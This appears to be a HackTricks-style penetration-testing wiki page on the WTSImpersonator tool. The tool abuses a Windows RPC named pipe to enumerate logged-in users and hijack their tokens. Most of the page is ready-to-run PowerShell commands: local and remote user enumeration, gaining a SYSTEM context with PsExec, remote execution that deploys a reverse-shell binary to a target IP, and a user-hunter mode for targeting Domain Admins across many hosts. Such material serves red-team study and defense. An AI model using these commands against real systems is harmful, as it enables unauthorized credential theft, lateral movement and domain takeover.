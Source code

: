 {{#include ../../banners/hacktricks-training.md}}

The **WTS Impersonator** tool exploits the **"\\pipe\LSM_API_service"** RPC Named pipe to stealthily enumerate logged-in users and hijack their tokens, bypassing traditional Token Impersonation techniques. This approach facilitates seamless lateral movements within networks. The innovation behind this technique is credited to **Omri Baso, whose work is accessible on [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Core Functionality

The tool operates through a sequence of API calls:

```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```

### Key Modules and Usage

- **Enumerating Users**: Local and remote user enumeration is possible with the tool, using commands for either scenario:

  - Locally:
    ```powershell
    .\WTSImpersonator.exe -m enum
    ```
  - Remotely, by specifying an IP address or hostname:
    ```powershell
    .\WTSImpersonator.exe -m enum -s 192.168.40.131
    ```

- **Executing Commands**: The `exec` and `exec-remote` modules require a **Service** context to function. Local execution simply needs the WTSImpersonator executable and a command:

  - Example for local command execution:
    ```powershell
    .\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
    ```
  - PsExec64.exe can be used to gain a service context:
    ```powershell
    .\PsExec64.exe -accepteula -s cmd.exe
    ```

- **Remote Command Execution**: Involves creating and installing a service remotely similar to PsExec.exe, allowing execution with appropriate permissions.

  - Example of remote execution:
    ```powershell
    .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
    ```

- **User Hunting Module**: Targets specific users across multiple machines, executing code under their credentials. This is especially useful for targeting Domain Admins with local admin rights on several systems.
  - Usage example:
    ```powershell
    .\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
    ```

{{#include ../../banners/hacktricks-training.md}}

